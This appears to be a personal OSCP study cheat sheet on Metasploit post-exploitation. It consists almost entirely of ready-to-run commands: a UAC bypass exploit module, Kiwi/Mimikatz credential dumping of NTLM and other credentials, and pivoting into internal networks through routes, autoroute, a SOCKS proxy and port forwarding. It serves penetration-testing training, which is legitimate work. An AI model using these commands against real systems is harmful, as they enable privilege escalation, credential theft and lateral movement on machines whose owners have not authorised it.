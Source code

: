 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/l-metasploit-framework/6-post-exploitation-modules/","updated":"2024-01-05T11:36:33.630+01:00"}
---
```


--------------
### UAC bypass:
- Review the integrity level of current process:
```
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- Effective UAC bypass for modern Windows systems:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

---------------
### Kiwi Credential Stealer:
- Requires privileges like Mimikatz
- In Meterpreter:
```
#Load module:
load kiwi

#Dump LM/NTLM creds:
creds_msv

#Dump all creds:
creds_all
```

-----------
### Meterpreter Port Forwarding:
```
route add <ip-or-range> <msfsessionid>
```
- Note: new shells on remote target through tunnel will only work if bind shells
- Example:
	route add 172.16.5.0/24 2

- Flush all routes:
```
route flush
```

- Auto-route module (recommended):
```
use multi/manage/autoroute
set session <id>
run
```

- SOCKS proxy module for tunnel outside of MSF:
	- Edit proxychains conf to port 1080 and win!
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

 - Meterpreter built-in port forward:
```
portfwd add -l <localport> -p <remoteport> -r <remoteip>
```
